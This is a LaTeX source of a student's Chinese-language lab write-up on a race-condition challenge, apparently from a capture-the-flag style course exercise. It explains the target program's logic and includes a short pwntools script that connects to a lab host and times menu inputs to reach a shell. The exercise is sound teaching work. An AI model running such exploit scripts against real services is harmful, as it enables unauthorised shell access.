\documentclass{article}
\usepackage{listings}
\usepackage{color}
\usepackage{amsmath}
\usepackage{graphicx}
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\lstset{frame=tb,
  language=Python,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=left,%设置行号位置none不显示行号
  %numberstyle=\tiny\courier, %设置行号大小
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  escapeinside=``,%逃逸字符(1左面的键),用于显示中文例如在代码中`中文...`
  tabsize=4,
  extendedchars=false %解决代码跨页时,章节标题,页眉等汉字不显示的问题
}

\usepackage[utf8]{inputenc}
\usepackage{float}
\date{2023/5/26}
\usepackage{ctex}
\usepackage{graphicx}
\title{Race Condition}
\author{叶梓淳 520030910302}

\begin{document}

\maketitle

\section{race}
    阅读程序汇编代码,程序的主体逻辑如下:首先初始化全局变量,flag=1,a\_sleep = a = b =0。然后循环执行menu函数,提示输入1到4,分别执行不同的函数。
    \begin{enumerate}
    	\item 输入1执行menu\_go函数,如果a\_sleep = 0,则a增大5,否则a\_sleep = 0。之后将b增大2。
    	\item 输入2执行menu\_chance函数,它会创建一个线程,之后判断a > b,成立且flag = 1则首先将a\_sleep置为1,然后休眠1秒,再将flag置为0,其他情况只会执行print函数,对结果无影响。
    	\item 输入3执行menu\_test函数,当a < b时执行system("/bin/sh")函数得到flag。
    	\item 输入4执行menu\_exit函数,退出程序。
    \end{enumerate}
    
    正常情况下,要想a<b,必须执行两次menu\_go函数,且每次执行a\_sleep必须为1,但flag被修改为0之后不会再修改a\_sleep,所以这是不可能的,因此需要利用条件竞争,即menu\_chance中的休眠函数。 具体做法是在执行menu\_chance函数之后立即执行menu\_go函数,这样能利用a\_sleep已被修改为1将b增加2,紧接着执行menu\_chance函数,由于第一个线程并未执行到修改flag的指令,第二个线程会将a\_sleep再次修改为1,这些操作都在第一个线程休眠过程中进行。最后只需再次执行menu\_go函数即可将b修改为6,大于a = 5。最终脚本如下:    
    
    \begin{itemize}
        \item 脚本1
        \begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40015)

io.recvuntil("Choice> ")

io.sendline(b'1')

io.recvuntil("Choice> ")

io.sendline(b'2')

io.recvuntil("Choice> ")

io.sendline(b'1')

io.recvuntil("Choice> ")

io.sendline(b'2')

io.recvuntil("Choice> ")

io.sendline(b'1 3')

io.interactive()

        \end{lstlisting}
    \end{itemize}

    运行结果如下,得到flag。
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.8\textwidth]{1.png}
    	\end{center}
    \end{figure}
 
   
   
   
 

\end{document}
